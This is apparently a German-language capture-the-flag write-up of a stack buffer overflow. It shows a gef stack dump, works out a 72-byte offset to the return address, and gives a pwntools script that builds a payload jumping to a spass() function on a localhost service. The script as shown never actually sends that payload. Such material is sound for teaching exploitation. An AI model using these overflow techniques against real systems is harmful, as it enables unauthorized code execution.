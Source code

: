 Durch die gdb-Erweiterung `gef` wird direkt ein Teil des Stacks angezeigt, an dem der Buffer bzw. die Eingabe gespeichert wird.

![gdb Stack](./gef_stack.png)

Untersuchen des Stacks:\
Der Buffer startet bei `0x7fffffffdf10`,\
die Rücksprung-Adresse steht bei `0x7fffffffdf58`:

```text
gef➤  x/50x 0x007fffffffdf10
0x7fffffffdf10: 0x41414141      0x41414141      0x00000041      0x00000000
0x7fffffffdf20: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffdf30: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffdf40: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffdf50: 0xffffdf70      0x00007fff      0x00401238      0x00000000
0x7fffffffdf60: 0xffffe068      0x00007fff      0x00000000      0x00000001
0x7fffffffdf70: 0x00000000      0x00000000      0xf7dfe7fd      0x00007fff
0x7fffffffdf80: 0xffffe068      0x00007fff      0xf7fca000      0x00000001
0x7fffffffdf90: 0x0040121f      0x00000000      0xffffe389      0x00007fff
0x7fffffffdfa0: 0x00401240      0x00000000      0x49789a80      0x31efa2d3
0x7fffffffdfb0: 0x00401070      0x00000000      0x00000000      0x00000000
0x7fffffffdfc0: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffdfd0: 0xf6789a80      0xce105d2c
```

Der Offest ist demnach `0x7fffffffdf58 - 0x7fffffffdf10 = 0x48` `(72)`.

Das bedeutet, 72 Bytes können als Input frei gewählt werden. Anschließend muss die Adresse der Funktion `spass()` `0x00000000004011d2` hinzugefügt werden.

Die automatisierte Lösung ist in `solve.py` zu finden:
```python
from pwn import *

TARGET_HOST = "localhost"
TARGET_PORT = 57005

print("Baue Verbindung zu %s:%d auf..." % (TARGET_HOST, TARGET_PORT))
process = remote(TARGET_HOST, TARGET_PORT)

address_flag_function = p64(0x00000000004011d2)

print("Sende Payload...")
payload = b"DBH"*24 + address_flag_function

print(process.recv())
```